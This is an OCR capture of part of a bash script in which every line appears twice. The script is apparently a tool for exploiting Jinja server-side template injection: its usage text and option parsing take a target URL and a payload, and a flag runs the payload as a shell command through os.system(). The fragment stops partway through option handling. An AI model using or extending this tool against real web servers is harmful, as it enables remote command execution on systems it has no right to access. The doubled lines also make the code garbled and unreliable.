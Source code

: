 ```

    echo -e "\n\t-c\t\tindicates that payload is a shell command"
    echo -e "\n\t-c\t\tindicates that payload is a shell command"
    echo -e "\t\t\totherwise, payload is treated as jinja template injection"
    echo -e "\t\t\totherwise, payload is treated as jinja template injection"


    echo -e "\n\t-d\t\tprint debug info"
    echo -e "\n\t-d\t\tprint debug info"


    echo -e "\n\t<payload>\tthe raw expression to be evaluated within the"
    echo -e "\n\t<payload>\tthe raw expression to be evaluated within the"
    echo -e "\t\t\tcurly braces or the os.system() Python system call"
    echo -e "\t\t\tcurly braces or the os.system() Python system call"
}
}




# prints only if invoked with -d
# prints only if invoked with -d


function log() {
function log() {
    [[ -v DEBUG ]] \
    [[ -v DEBUG ]] \
        && echo -e "\e[34m[+]\e[0m $1" 
        && echo -e "\e[34m[+]\e[0m $1" 
}
}




[[ $# -lt 4 ]] \
[[ $# -lt 4 ]] \
    && usage \
    && usage \
    && exit 1
    && exit 1


while getopts ':u:cp:d' OPTION; do
while getopts ':u:cp:d' OPTION; do
    case "${OPTION}" in
    case "${OPTION}" in
        u)
        u)
            TARGET=${OPTARG}
            TARGET=${OPTARG}
            ;;
            ;;
        p)
        p)
            PAYLOAD="${OPTARG}"
            PAYLOAD="${OPTARG}"
            ;;
            ;;
        c)
        c)
```
